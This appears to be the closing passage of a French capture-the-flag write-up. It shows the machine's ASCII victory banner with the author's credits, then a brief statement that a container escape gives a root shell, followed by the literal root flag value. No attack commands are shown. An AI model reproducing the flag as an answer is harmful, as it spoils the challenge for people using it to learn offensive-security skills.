|, \=/\=|- |==||==|-  _.-` .-,.'|    .-,.'|           /==/,   -  \ /==/_,  ,  - \|==|, \/ /, /==|-  _.-` 
|- |/ |/ , /==/|==|   `.-.|==|, |   |==|, |           |==|   _   _\==|   .=.     |==|-  \|  ||==|   `.-. 
 \, ,     _|==/==/_ ,    /|==|- |   |==|- |           |==|  .=.   |==|_ : ;=:  - |==| ,  | -/==/_ ,    / 
 | -  -  , |==|==|    .-' |==|, |   |==|, |           |==|,|   | -|==| , '='     |==| -   _ |==|    .-'  
  \  ,  - /==/|==|_  ,`-._|==|- `-._|==|- `-._        |==|  '='   /\==\ -    ,_ /|==|  /\ , |==|_  ,`-._ 
  |-  /\ /==/ /==/ ,     //==/ - , ,/==/ - , ,/       |==|-,   _`/  '.='. -   .' /==/, | |- /==/ ,     / 
  `--`  `--`  `--`-----`` `--`-----'`--`-----'        `-.`.____.'     `--`--''   `--`./  `--`--`-----``  


--------------------------------------------Designed By -------------------------------------------------------
					|  Anurodh Acharya |
					---------------------

	               		     Let me know if you liked it.

Twitter
	- @acharya_anurodh
Linkedin
	- www.linkedin.com/in/anurodh-acharya-b1937116a


```

Ici on a de la chance on peut évader le contenaire.  
On se retrouve avec un shell root.   
Il reste plus que à lire le flag.  

La réponse est : {ROOT-FLAG: w18gfpn9xehsgd3tovhk0hby4gdp89bg}   


